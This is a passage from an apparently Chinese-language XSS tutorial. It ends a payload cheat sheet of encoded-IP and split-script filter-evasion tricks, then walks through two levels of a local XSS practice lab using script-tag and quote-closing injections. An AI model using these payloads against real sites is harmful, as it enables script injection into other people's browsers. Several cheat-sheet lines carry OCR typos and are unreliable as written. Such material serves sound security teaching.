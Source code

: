 ```
<A HREF="http://3232235521′′>XSS</A>

(71)IP 十六进制
<A HREF="http://0xc0.0xa8.0×00.0×01′′>XSS</A>

(72)IP 八进制
<A HREF="http://0300.0250.0000.0001′′>XSS</A>

(73)混合编码
<A HREF="http://6 6.000146.0×7.147/"">XSS</A>

(74)节省[http:]
<A HREF="//www.google.com/">XSS</A>

(75)节省[www]
<A HREF="http://google.com/">XSS</A>

(76)绝对点绝对 DNS
<A HREF="http://www.google.com./">XSS</A>

拆分跨站
    <script>z='alert'</script>
    <script>z=z+'(/xss/)'</script>
    <script>eval(z)</script>
```

### 六、XSS靶场

能够成功执行js脚本就算成功，譬如用alert弹出某些信息，当然也可以换成跳转成其他页面

#### level-1

```
按F12或者右键查看网页源代码，查找test位置进行xss注入（最好是看网页源代码，因为F12的开发者模式是经过加工经过修饰的最终输出结果，并不是网页最原始最真实的代码）

<h2 align=center>欢迎用户test</h2><center><img src=level1.png></center>

因为网页没有做任何的js过滤，所以只需要在欢迎用户后面填上js代码

输入：<script>alert(1)</script>（原本欢迎用户后面是test，现在换成了js代码）

输出：http://127.0.0.1/xss/level1.php?name=<script>alert(1)</script>

这样html就会把这个js脚本文件当成网页源代码的一部分执行，这样就会跳出来那个框框了
```

#### level-2

```
查看网页源代码

<input name=keyword  value="test">可以发现因为带了双引号的缘故，js脚本代码无法执行

因此本关需要闭合双引号绕过

输入："><script>alert(1)</script>

输入后就变成了这样的代码，实现了闭合，右侧的双引号可以不用理会不影响

输出：<input name=keyword  value=""><script>alert(1)</script>">
```
